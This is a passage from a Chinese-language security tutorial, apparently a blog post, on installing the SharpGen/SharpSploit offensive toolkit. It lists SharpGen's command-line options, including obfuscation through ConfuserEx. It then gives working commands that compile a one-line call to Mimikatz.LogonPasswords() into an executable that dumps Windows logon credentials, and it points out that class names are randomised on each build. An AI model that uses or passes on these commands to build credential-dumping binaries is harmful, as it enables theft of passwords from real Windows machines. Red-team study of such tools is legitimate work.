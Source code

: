 https://github.com/git-for-windows/git/releases/download/v2.23.0.windows.1/Git-2.23.0-64-bit.exe

下载安装并编译SharpGen：

```
git clone https://github.com/cobbr/SharpGen
cd SharpGen
dotnet build --configuration Release
```

## 0x03 基本功能介绍
---

SharpGen默认集成了[SharpSploit](https://github.com/cobbr/SharpSploit)，能够直接调用其中的功能

参数说明：

```
Options:
  -? | -h | --help                                     Show help information
  -f | --file <OUTPUT_FILE>                            The output file to write to.
  -d | --dotnet | --dotnet-framework <DOTNET_VERSION>  The Dotnet Framework version to target (net35 or net40).
  -o | --output-kind <OUTPUT_KIND>                     The OutputKind to use (console or dll).
  -p | --platform <PLATFORM>                           The Platform to use (AnyCpy, x86, or x64).
  -n | --no-optimization                               Don't use source code optimization.
  -a | --assembly-name <ASSEMBLY_NAME>                 The name of the assembly to be generated.
  -s | --source-file <SOURCE_FILE>                     The source code to compile.
  -c | --class-name <CLASS_NAME>                       The name of the class to be generated.
  --confuse <CONFUSEREX_PROJECT_FILE>                  The ConfuserEx ProjectFile configuration.
```

### 1.对单行代码进行编译

命令如下：

```
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe "Console.WriteLine(Mimikatz.LogonPasswords());"
```

执行过程显示自动补齐的编译代码，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-10-17/2-1.png)

值得注意的是其中的随机类名`ohq8r7eQ1qK`，每次生成文件时使用的类名均会改变

**注：**

如果想指定类名，可以加入**-c**参数，示例如下：

```
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -c abcde12345 -f example.exe "Console.WriteLine(Mimikatz.LogonPasswords());" 
```

命令执行后生成example.exe，example.exe会调用Mimikatz的`sekurlsa::logonpasswords`命令
